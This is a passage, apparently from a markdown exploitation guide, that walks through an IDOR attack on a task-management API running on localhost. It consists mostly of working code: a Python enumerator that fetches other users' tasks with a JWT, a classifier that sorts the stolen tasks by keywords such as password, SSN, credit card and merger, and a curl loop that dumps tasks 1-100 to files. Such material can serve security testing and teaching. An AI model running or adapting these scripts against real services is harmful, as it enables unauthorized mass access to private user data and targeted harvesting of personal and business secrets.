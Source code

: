    ```python
               if response.status_code == 200:
                   task_data = response.json()
                   found_tasks.append(task_data)
                   print(f"Task {task_id}: {task_data['title']} (Owner: {task_data['user']['firstName']})")
               
           except requests.exceptions.RequestException as e:
               print(f"Error accessing task {task_id}: {e}")
       
       return found_tasks
   
   # Execute enumeration
   token = "your_jwt_token_here"
   tasks = enumerate_tasks(token, 1, 50)
   print(f"Total tasks found: {len(tasks)}")
   ```

2. **Data Classification**
   ```python
   def classify_tasks(tasks):
       classification = {
           'high_priority': [],
           'personal_info': [],
           'business_critical': [],
           'sensitive_content': []
       }
       
       for task in tasks:
           # Classify by priority
           if task.get('priority') == 'HIGH' or task.get('priority') == 'URGENT':
               classification['high_priority'].append(task)
           
           # Look for personal information
           if any(keyword in task.get('description', '').lower() 
                  for keyword in ['password', 'ssn', 'credit card', 'personal']):
               classification['personal_info'].append(task)
           
           # Business critical tasks
           if any(keyword in task.get('title', '').lower() 
                  for keyword in ['budget', 'financial', 'confidential', 'merger']):
               classification['business_critical'].append(task)
       
       return classification
   ```

### Phase 3: Data Extraction and Analysis

1. **Extract Complete Task Data**
   ```bash
   # Create comprehensive data dump
   mkdir idor_extraction
   
   for i in {1..100}; do
     curl -s -H "Authorization: Bearer $TOKEN" \
          "http://localhost:3000/api/tasks/$i" > "idor_extraction/task_$i.json" 2>/dev/null
   done
   
   # Filter successful extractions
   find idor_extraction -name "*.json" -size +10c | wc -l
   ```
